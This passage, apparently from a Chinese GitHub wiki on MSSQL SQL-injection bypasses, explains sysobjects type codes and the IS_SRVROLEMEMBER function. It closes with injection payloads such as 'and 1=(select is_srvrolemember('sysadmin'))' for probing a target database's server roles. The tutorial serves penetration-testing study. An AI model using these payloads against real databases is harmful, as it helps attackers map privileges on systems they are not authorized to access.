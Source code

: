 

mssql的储存过程是我们利用的重点，他天然支持多语句，也为我们注入提供了便利，我们可以通过查看可编程性里面的函数来查找他的功能，发现一些新的东西

# 0x02 字段的介绍



```
select top 1 name,xtype from sysobjects;

name    xtype
sysrscols   S 
```



xtype可以是下列对象类型中的一种： C = CHECK 约束　　D = 默认值或 DEFAULT 约束　　F = FOREIGN KEY 约束　　L = 日志　　FN = 标量函数 IF = 内嵌表函数 　　P = 存储过程 　　PK = PRIMARY KEY 约束（类型是 K） 　　RF = 复制筛选存储过程 S = 系统表 　　TF = 表函数 　　TR = 触发器 　　U = 用户表 　　UQ = UNIQUE 约束（类型是 K） V = 视图 　　X = 扩展存储过程

# 0x03 权限判断



#### 服务器级别



我们可以在docs上面看到 `IS_SRVROLEMEMBER ( 'role' [ , 'login' ] ) ` 函数 role 的有效值是用户定义的服务器角色和以下固定服务器角色：

[![mysql](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/raw/master/img/1.2.1.png)](https://github.com/aleenzz/MSSQL_SQL_BYPASS_WIKI/blob/master/img/1.2.1.png)

返回类型:

| 返回值 | 描述                                                 |
| ------ | ---------------------------------------------------- |
| 0      | login 不是 role 的成员。                             |
| 1      | login 是 role 的成员。                               |
| NULL   | role 或 login 无效，或者没有查看角色成员身份的权限。 |

最终我们可以构造语句

```
and 1=(select is_srvrolemember('sysadmin'))

and 1=(select is_srvrolemember('serveradmin'))

and 1=(select is_srvrolemember('setupadmin'))

and 1=(select is_srvrolemember('securityadmin'))

and 1=(select is_srvrolemember('diskadmin'))

and 1=(select is_srvrolemember('bulkadmin'))
```

